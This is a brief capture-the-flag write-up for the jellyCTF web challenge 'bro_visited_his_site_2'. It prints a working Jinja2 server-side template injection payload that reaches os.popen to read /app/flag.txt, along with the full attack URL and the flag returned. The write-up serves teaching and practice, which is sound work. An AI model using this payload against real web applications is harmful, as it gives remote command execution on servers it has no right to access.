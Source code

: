 # bro_visited_his_site_2
Writeup author: **lolmenow**

Point count: 100pts

Difficulty: easy

Provided files: N/A (same as first version)

Url: https://bro-visited-his-site.jellyc.tf/

Description: ok, but can you get /app/flag.txt
# 

This is exactly the same vulnerability as the first edition of this challenge, please read that before continuing here.

Using the same payload as the last challenge, we can just modify it to read /app/flag.txt: `{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("cat /app/flag.txt").read()}}{%endif%}{% endfor %}`

Once done, we are presented with:

` jellyCTF{rc3p1lled_t3mpl4te_1nj3ct10nmaxx3r}pilled jellyCTF{rc3p1lled_t3mpl4te_1nj3ct10nmaxx3r}maxxer`

And there is our flag!

Final flag: `jellyCTF{rc3p1lled_t3mpl4te_1nj3ct10nmaxx3r}`

Final payload: `https://bro-visited-his-site.jellyc.tf/response?word={% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("cat /app/flag.txt").read()}}{%endif%}{% endfor %}`

